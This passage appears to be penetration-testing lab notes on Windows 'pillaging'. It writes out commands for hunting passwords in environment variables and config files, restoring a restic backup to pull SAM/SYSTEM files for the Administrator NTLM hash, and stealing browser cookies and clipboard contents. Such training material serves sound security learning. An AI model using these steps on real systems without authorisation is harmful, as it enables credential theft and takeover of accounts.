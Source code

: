 ### Lab 4: Restic Password Discovery
```cmd
# Objective: Find restic backup password as Jeff
# Method: Environment variables, config files, credential hunting

# Check environment:
echo $env:RESTIC_PASSWORD

# Search for restic configs:
findstr /SIM /C:"restic" *.txt *.ini *.cfg *.config
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config

# Expected result: Restic repository password
```

### Lab 5: Administrator Hash Extraction
```cmd
# Objective: Extract Administrator hash from backup
# Method: Restic restore + SAM/SYSTEM extraction

# Restore backup containing SAM/SYSTEM:
$env:RESTIC_PASSWORD = '<discovered_password>'
restic.exe -r <repository_path> snapshots
restic.exe -r <repository_path> restore <snapshot_id> --target C:\Restore

# Navigate to restored Windows config:
cd C:\Restore\C\Windows\System32\config

# Extract hashes (use impacket or similar):
# SAM + SYSTEM files = local account hashes
# Expected result: Administrator NTLM hash
```

## 🔄 Comprehensive Pillaging Strategy

### Systematic Approach
```cmd
# 1. Application enumeration
dir "C:\Program Files*"
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*

# 2. Configuration file hunting
findstr /SIM /C:"password" *.xml *.config *.ini *.txt

# 3. Browser data extraction
# Firefox: cookies.sqlite
# Chrome: Invoke-SharpChromium

# 4. Clipboard monitoring
Invoke-ClipboardLogger

# 5. Backup system enumeration
# Look for restic, Veeam, Acronis, etc.

# 6. Remote management tools
# mRemoteNG, TeamViewer, VNC configs
```
